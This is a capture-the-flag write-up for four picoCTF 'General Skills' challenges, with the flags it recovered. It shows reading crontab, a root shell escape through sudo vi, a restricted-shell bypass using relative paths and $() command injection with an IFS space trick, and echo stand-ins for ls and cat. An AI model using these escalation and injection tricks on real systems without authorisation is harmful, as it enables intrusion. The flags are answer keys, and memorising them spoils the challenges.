

# General Skills

# Chrono

---

How to automate tasks to run at intervals on linux servers?

<aside>
💡 To set up the cron daemon, we need to store the tasks in a file called `crontab` and then tell the daemon when to run the tasks

</aside>

```bash
picoplayer@challenge:/etc/systemd/system/default.target.wants$ cd /etc

picoplayer@challenge:/etc$ cat crontab  
# picoCTF{Sch3DUL7NG_T45K3_L1NUX_1d781160}
```

[](https://academy.hackthebox.com/module/18/section/2093)

# **Permissions**

---

Can you read files in the root file?

<aside>
💡 What may available to us as a sudo user?

</aside>

```bash
picoplayer@challenge:/$ sudo -h
-l, --list  list user's privileges or check a specific command; use twice for longer format
```

```bash
picoplayer@challenge:/$ sudo -ll
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:

Sudoers entry:
    RunAsUsers: ALL
    Commands:
        /usr/bin/vi
```

<aside>
💡 When using vi as a sudo user, all the command pass into it will also be sudo. (Bypass the permission denial)

</aside>

<aside>
💡 Using command in vi: [esc]:! [command] [enter]

</aside>



```bash
picoplayer@challenge:~$ sudo vi

total 16
drwx------ 1 root root   22 Sep 10 13:50 .
drwxr-xr-x 1 root root   63 Sep 10 13:47 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:34 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  774 Sep 10 13:50 .viminfo

Press ENTER or type command to continue
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```

# Special (Bypass the shell)

---

<aside>
💡 How to bypass the shell?

</aside>

## Solution 1: Observation

<aside>
💡 We can observe that ../ won’t be capitalized and word ckeck

</aside>

```bash
Special$ ../
../ 
sh: 1: ../: Permission denied
Special$ ../../
../../ 
sh: 1: ../../: Permission denied
```

<aside>
💡 We know that common used commands such as `ls` has absolute address /root/usr/bin/

</aside>

```bash
Special$ ../../usr/bin/ls
../../usr/bin/ls 
blargh
Special$ ../../usr/bin/ls ./blargh
../../usr/bin/ls ./blargh 
flag.txt
Special$ ../../usr/bin/cat ./blargh/flag.txt
../../usr/bin/cat ./blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}Special$
```

## Solution 2: Interpolated command from strings (Injection)

Although we use $(), but it doesn’t allow space in it.

```bash
Special$ $(ls)
$(ls) 
sh: 1: blargh: not found
Special$ $(ls blargh)
Pals blargh) 
sh: 1: Syntax error: ")" unexpected
```

We have to bypass the space

[Bypass Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

<aside>
💡 Internal field separator

</aside>

```bash
Special$ $(IFS=];b=ls]blargh;$b)
$(IFS=];b=ls]blargh;$b) 
sh: 1: flag.txt: not found
Special$ $(IFS=];a=cat]blargh/flag.txt;$a)
$(IFS=];a=cat]blargh/flag.txt;$a) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}: not found
```

# Specialer ( `ls` and `cat` alternative )

---

<aside>
💡 Alternative of ls is `echo *` , for more usage: `echo * .*` `echo * .* */*`

</aside>

<aside>
💡 Alternative of cat is `echo "$(<file.txt)"`

</aside>

[John Jarvis](https://jarv.org/posts/cat-without-cat/)